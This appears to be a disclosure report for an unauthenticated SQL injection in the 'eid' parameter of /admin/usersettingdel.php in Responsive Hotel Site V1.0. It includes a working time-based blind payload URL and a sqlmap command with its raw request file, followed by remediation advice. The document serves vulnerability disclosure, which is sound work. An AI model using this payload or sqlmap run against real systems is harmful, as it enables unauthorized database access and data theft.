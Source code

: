 # Responsive Hotel Site V1.0 /admin/usersettingdel.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- Responsive Hotel Site

## Vendor Homepage

- [Responsive Hotel Site Using PHP With Source Code - Source Code & Projects](https://code-projects.org/responsive-hotel-site-using-php-source-code/)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- 647661917@qq.com

## VERSION(S)

- V1.0

## Software Link

- [Responsive Hotel Site Using PHP With Source Code - Source Code & Projects](https://code-projects.org/responsive-hotel-site-using-php-source-code/)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the '/admin/usersettingdel.php' file of the 'Responsive Hotel Site' project. The reason for this issue is that attackers inject malicious code from the parameter "eid" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Responsive Hotel Site", discovered a critical SQL injection vulnerability in the "/admin/usersettingdel.php" file. This vulnerability stems from insufficient user input validation of the 'eid' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- time-based blind

## Vulnerability location:

- 'eid' parameter

## Payload:

```
Parameter: #1* (URI)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://10.151.169.235:8833/admin/usersettingdel.php?eid=1'||(SELECT 0x625a724f WHERE 3917=3917 AND (SELECT 8165 FROM (SELECT(SLEEP(5)))lVBY))||'
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
```

![image-20251011195700092](assets/image-20251011195700092.png)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
GET /admin/usersettingdel.php?eid=1* HTTP/1.1
Host: 10.151.169.235:8833
Cache-Control: max-age=0
Origin: http://10.151.169.235:8833
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.151.169.235:8833/admin/usersetting.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=cuq6v5v2e97ubeodt33s8k4ot9
Connection: keep-alive
```

# Attack results

![image-20251011195727356](assets/image-20251011195727356.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.